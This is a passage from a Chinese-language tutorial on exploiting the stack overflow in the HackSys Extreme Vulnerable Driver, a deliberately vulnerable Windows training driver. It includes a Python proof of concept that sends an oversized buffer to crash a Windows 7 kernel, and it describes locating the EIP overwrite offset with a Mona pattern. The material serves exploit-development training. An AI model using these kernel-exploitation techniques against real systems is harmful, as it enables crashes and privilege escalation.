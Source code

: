 ```
        NULL);
    HeapFree(GetProcessHeap(), 0, (LPVOID)lpInBuffer);
    CloseHandle(hDevice);
    return 0;
`}`
//EOF
```

这里是Python版



```
# https://github.com/OsandaMalith/Exploits/blob/master/HEVD/StackOverflowBSOD.py
from ctypes import *
from ctypes.wintypes import *
# Title : HEVD x86 Stack Overflow BSOD
# Platform: Windows 7 x86
# Author: Osanda Malith Jayathissa (@OsandaMalith)
# Website: https://osandamalith.com
kernel32 = windll.kernel32
def main():
    lpBytesReturned = c_ulong()
    hDevice = kernel32.CreateFileA("\\.\HackSysExtremeVulnerableDriver", 0xC0000000, 0, None, 0x3, 0, None)
    if not hDevice or hDevice == -1:
        print "[!] Failed to get a handle to the driver " + str(ctypes.GetLastError())
        return -1
    buf = "x41" * (1024 * 4) 
    bufSize  = len(buf)
    bufPtr = id(buf) + 20
    kernel32.DeviceIoControl(hDevice, 0x222003, bufPtr, bufSize, None, 0,byref(lpBytesReturned), None)
if __name__ == '__main__':
    main()
# EOF
```

[![](https://p5.ssl.qhimg.com/t012e94e3120866b43c.png)](https://p5.ssl.qhimg.com/t012e94e3120866b43c.png)

如果我们将缓冲区大小更改为0x900，您可以看到我们可以看到EIP点到我们的缓冲区。

[![](https://p0.ssl.qhimg.com/t01a1efe53d968bc0ea.png)](https://p0.ssl.qhimg.com/t01a1efe53d968bc0ea.png)

开发这个驱动程序的漏洞与开发一个用户空间应用程序的漏洞非常相似。现在我们必须找到我们覆盖返回地址的偏移量，以便EIP指向它。我将使用Mona创建一个0x900的模式。

[![](https://p2.ssl.qhimg.com/t013c051c1cd02942c1.png)](https://p2.ssl.qhimg.com/t013c051c1cd02942c1.png)

发送这个长缓冲区后，我们可以看到EIP包含值0x72433372（r3Cr）。

[![](https://p5.ssl.qhimg.com/t016f48a791447635f4.png)](https://p5.ssl.qhimg.com/t016f48a791447635f4.png)
